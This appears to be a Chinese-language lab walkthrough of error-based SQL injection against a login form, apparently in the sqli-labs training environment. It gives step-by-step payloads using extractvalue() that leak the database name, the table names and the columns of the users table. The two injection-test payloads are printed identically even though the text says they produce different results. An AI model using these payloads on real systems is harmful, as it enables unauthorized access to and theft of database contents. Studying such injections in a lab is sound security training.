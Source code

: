 
        报错注入

        利用到extractvalue()函数，

        它的作用是从目标XML中返回包含所查询值的字符串。

        它的正确语法是:extractvalue(XML_document, XPath_string)

        其中：

        第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc

        第二个参数：XPath_string (Xpath格式的字符串)

        如果我们对其中的参数输入错误的格式，那么它就会进行报错

*  步骤

        1.在该页面提交表单发现会登陆失败，使用burpsuite进行拦截并且多次测试表单内容

        2.首先测试注入点，是否存在注入漏洞

        构造payload

        `uname=admin' and 1=1 --+ &passwd=admin&submit=Submit`

        页面显示能够登录

        `uname=admin' and 1=1 --+ &passwd=admin&submit=Submit`

        页面显示登陆失败

[![0j3ifH.jpg](https://s1.ax1x.com/2020/10/18/0j3ifH.jpg)](https://imgchr.com/i/0j3ifH)


说明and后的语句被执行了，也就是说存在注入漏洞

3.接下来可以使用报错对数据库的内容进行输出

构造payload:

`uname=admin' and extractvalue(1,concat('~',(select database()))) --+&passwd=admin&submit=Submit`

[![0j3pTO.jpg](https://s1.ax1x.com/2020/10/18/0j3pTO.jpg)](https://imgchr.com/i/0j3pTO)


如图所示，相应的数据库名被与错误信息连接在一起显示了出来

4.对数据表进行输出

`uname=admin' and extractvalue(1,concat('~',(select group_concat(table_name)from information_schema.columns where table_schema='security')))--+&passwd=admin&submit=Submit`


[![0j1zm6.jpg](https://s1.ax1x.com/2020/10/18/0j1zm6.jpg)](https://imgchr.com/i/0j1zm6)

但是发现能显示出来的只有两个表，需要对其余的几个表进行爆破,利用SQL语句的 NOT IN限制

`uname=admin' and extractvalue(1,concat('~',(select group_concat(table_name)from information_schema.columns where table_schema='security' and table_name not in('emails'))))--+&passwd=admin&submit=Submit`

连续排除几个表发现数据库中所有的表为emails,referers,uagents还有users，要对users表进行爆破

5.`uname=admin' and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name in ('users')))) --+ &passwd=admin&submit=Submit`
